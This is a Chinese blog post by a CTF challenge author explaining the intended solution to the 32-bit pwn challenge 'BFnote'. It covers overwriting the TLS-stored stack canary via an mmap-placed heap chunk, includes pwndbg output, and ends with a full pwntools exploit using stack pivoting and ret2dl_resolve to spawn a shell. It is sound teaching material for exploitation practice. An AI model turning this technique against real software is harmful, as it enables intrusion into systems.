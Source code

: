 ```yaml
---
layout:     post
title:      "春秋杯网络安全公益联赛 出题小结"
subtitle:   "新春战疫，为逆行者加油！"
date:       2020-02-24 11:00:00
author:     "b0ldfrev"
catalog: true
tags:
    - Pwn
    - CTF
 
---
```


>博客就快长草了

### [出题思路]： 

常规栈溢出的canary绕过方法有leak，fork爆破，劫持`__stack_chk_fail`,还有一种就是覆盖TLS中储存的Canary值。之前starctf2018中有一道babystack就是利用这一方法，但是那道题是跑了新个线程。

这样的话thread_stack线程栈中，TCB结构在thread_stack的高地址，当前栈帧在低地址，所以只要溢出长度够大就能覆盖到TCB中的canary。

但是对于主线程来说，在glibc2.23 32位环境下，TLS被初始化时存在一点问题，特殊情况下导致TCB结构的地址可定位

### [writeup]：


1.检查题目保护，发现开了CANARY与NX

```python
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```


2.发现存在栈溢出与堆地址任意偏移写任意值 可利用

```c
unsigned int __cdecl main()
{
  signed int i; // [esp+4h] [ebp-54h]
  int size; // [esp+8h] [ebp-50h]
  char *v3; // [esp+Ch] [ebp-4Ch]
  int v4; // [esp+14h] [ebp-44h]
  char description; // [esp+1Ah] [ebp-3Eh]
  unsigned int v6; // [esp+4Ch] [ebp-Ch]

  v6 = __readgsdword(0x14u);
  menu();
  fwrite("\nGive your description : ", 1u, 0x19u, stdout);
  memset(&description, 0, 0x32u);
  myread(0, &description, 1536);   //栈溢出
  fwrite("Give your postscript : ", 1u, 0x17u, stdout);
  memset(&postscript, 0, 0x64u);
  myread(0, &postscript, 1536);
  fwrite("\nGive your notebook size : ", 1u, 0x1Bu, stdout);
  size = get_long();
  v3 = (char *)malloc(size);
  memset(v3, 0, size);
  fwrite("Give your title size : ", 1u, 0x17u, stdout);
  v4 = get_long();
  for ( i = v4; size - 32 < i; i = get_long() )   //重复输入
    fwrite("invalid ! please re-enter :\n", 1u, 0x1Cu, stdout);
  fwrite("\nGive your title : ", 1u, 0x13u, stdout);
  myread(0, v3, i);
  fwrite("Give your note : ", 1u, 0x11u, stdout);
  read(0, &v3[v4 + 16], size - v4 - 16);  // 逻辑漏洞，错误的使用了重复输入之前的值，基于堆地址任意地址写
  fwrite("\nnow , check your notebook :\n", 1u, 0x1Du, stdout);
  fprintf(stdout, "title : %s", v3);
  fprintf(stdout, "note : %s", &v3[v4 + 16]);
  return __readgsdword(0x14u) ^ v6;

```

3.当一个函数被调用，当前线程的tcbhead_t.stack_guard会放置到栈上(也就是canary)，32位下gs寄存器指向tcb，可以细看源码。在函数调用结束的时候，栈上的值被和tcbhead_t.stack_guard比较，如果两个值是不 相等的，程序将会返回error并且终止。 

```c
typedef struct {   
void *tcb;        /* Pointer to the TCB.  Not necessarily the thread descriptor used by libpthread.  */   
dtv_t *dtv;   
void *self;       /* Pointer to the thread descriptor.  */   
int multiple_threads;   
int gscope_flag;   
uintptr_t sysinfo;   
uintptr_t stack_guard;   
uintptr_t pointer_guard;   
... } tcbhead_t; 

```


4.在glibc2.23-i386的环境下，main线程的tcb块被mmap初始化在libc内存布局上方。

```python
 ►   0x8048772    mov    eax, dword ptr gs:[0x14] 

EAX  0x5ba0b500

```

```python

pwndbg> search -p 0x5ba0b500
                0xf7e00714 0x5ba0b500
[stack]         0xffffcecc 0x5ba0b500
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
 0x8048000  0x8049000 r-xp     1000 0      /home/b0ldfrev/icq/BFnote
 0x8049000  0x804a000 r--p     1000 0      /home/b0ldfrev/icq/BFnote
 0x804a000  0x804b000 rw-p     1000 1000   /home/b0ldfrev/icq/BFnote
0xf7e00000 0xf7e01000 rw-p     1000 0      
0xf7e01000 0xf7fb1000 r-xp   1b0000 0      /lib/i386-linux-gnu/libc-2.23.so
0xf7fb1000 0xf7fb3000 r--p     2000 1af000 /lib/i386-linux-gnu/libc-2.23.so
0xf7fb3000 0xf7fb4000 rw-p     1000 1b1000 /lib/i386-linux-gnu/libc-2.23.so
0xf7fb4000 0xf7fb7000 rw-p     3000 0      
0xf7fd3000 0xf7fd4000 rw-p     1000 0      
0xf7fd4000 0xf7fd7000 r--p     3000 0      [vvar]
0xf7fd7000 0xf7fd9000 r-xp     2000 0      [vdso]
0xf7fd9000 0xf7ffc000 r-xp    23000 0      /lib/i386-linux-gnu/ld-2.23.so
0xf7ffc000 0xf7ffd000 r--p     1000 22000  /lib/i386-linux-gnu/ld-2.23.so
0xf7ffd000 0xf7ffe000 rw-p     1000 23000  /lib/i386-linux-gnu/ld-2.23.so
0xfff0e000 0xffffe000 rw-p    f0000 0      [stack]

```

可以看到canary在0xf7e00714这个地址刚好在libc-2.23.so代码段上方


5.当调用malloc申请内存时，若size大于等 mmap分配阈值（默认值 128KB）0x200000时，malloc会调用mmap申请内存，且申请的内存可以观察到同样在libc上方。

```python

pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
 0x8048000  0x8049000 r-xp     1000 0      /home/b0ldfrev/icq/BFnote
 0x8049000  0x804a000 r--p     1000 0      /home/b0ldfrev/icq/BFnote
 0x804a000  0x804b000 rw-p     1000 1000   /home/b0ldfrev/icq/BFnote
0xf7bff000 0xf7e01000 rw-p   202000 0      
0xf7e01000 0xf7fb1000 r-xp   1b0000 0      /lib/i386-linux-gnu/libc-2.23.so
0xf7fb1000 0xf7fb3000 r--p     2000 1af000 /lib/i386-linux-gnu/libc-2.23.so
0xf7fb3000 0xf7fb4000 rw-p     1000 1b1000 /lib/i386-linux-gnu/libc-2.23.so
0xf7fb4000 0xf7fb7000 rw-p     3000 0      
0xf7fd3000 0xf7fd4000 rw-p     1000 0      
0xf7fd4000 0xf7fd7000 r--p     3000 0      [vvar]
0xf7fd7000 0xf7fd9000 r-xp     2000 0      [vdso]
0xf7fd9000 0xf7ffc000 r-xp    23000 0      /lib/i386-linux-gnu/ld-2.23.so
0xf7ffc000 0xf7ffd000 r--p     1000 22000  /lib/i386-linux-gnu/ld-2.23.so
0xf7ffd000 0xf7ffe000 rw-p     1000 23000  /lib/i386-linux-gnu/ld-2.23.so
0xfff0e000 0xffffe000 rw-p    f0000 0      [stack]

```

6.利用思路就是在最开始栈溢出的时候将canary填成值A，并做好栈迁移的准备，在.bss构造resolve数据，
申请notebook大小0x200000，使其地址在libc上方；tille大小故意输错成堆地址ptr到tcb中canary的偏移，二次输入时给一个正确值，这下在输入note内容时就可以修改tcb中canary的值为A。main函数返回时绕过canary检查，迁移去执行dl_rutime_resolve，有个坑是由于栈迁移，尽量迁移后抬到bss高地址处执行，resolve数据尽量放到比指令更高的地址。



7.EXP

```python

from pwn import *
context(os='linux', arch='i386', log_level='debug')
#[author]: b0ldfrev

p= process('./BFnote')

def debug(addr,PIE=True):
    if PIE:
        text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(p.pid)).readlines()[1], 16)
        print "breakpoint_addr --> " + hex(text_base + 0x202040)
        gdb.attach(p,'b *{}'.format(hex(text_base+addr)))
    else:
        gdb.attach(p,"b *{}".format(hex(addr))) 

sd = lambda s:p.send(s)
sl = lambda s:p.sendline(s)
rc = lambda s:p.recv(s)
ru = lambda s:p.recvuntil(s)
sda = lambda a,s:p.sendafter(a,s)
sla = lambda a,s:p.sendlineafter(a,s)


dl_resolve_data="\x80\x21\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x12\x00\x00\x00\x37\x66\x66\x5a\x6d\x59\x50\x47\x60\xa1\x04\x08\x07\x25\x02\x00\x73\x79\x73\x74\x65\x6d\x00"
dl_resolve_call="\x50\x84\x04\x08\x70\x20\x00\x00"



canary=0xdeadbe00
postscript=0x804A060
#correct=0x804a428

payload1="1"*0x32+p32(canary)+p32(0)+p32(postscript+4+0x3a8)

ru("description : ")
sd(payload1)


payload2="s"*0x3a8+dl_resolve_call+p32(0x12345678)+p32(postscript+0x3b8)+"/bin/sh\x00"+p64(0)+dl_resolve_data

ru("postscript : ")
sd(payload2)


ru("notebook size : ")
sl(str(0x200000))

ru("title size : ")
sl(str(0x20170c-0x10))

ru("please re-enter :\n")
sl(str(100))

ru("your title : ")
sl("2222")

ru("your note : ")

sd(p32(canary))

p.interactive()

```


8.程序我忘了设置sleep，所以还存在极小概率的canary爆破，比赛时间那么长，就3个字节嘛 ~ 手动狗头，如果各位大师傅还有非预期 欢迎讨论~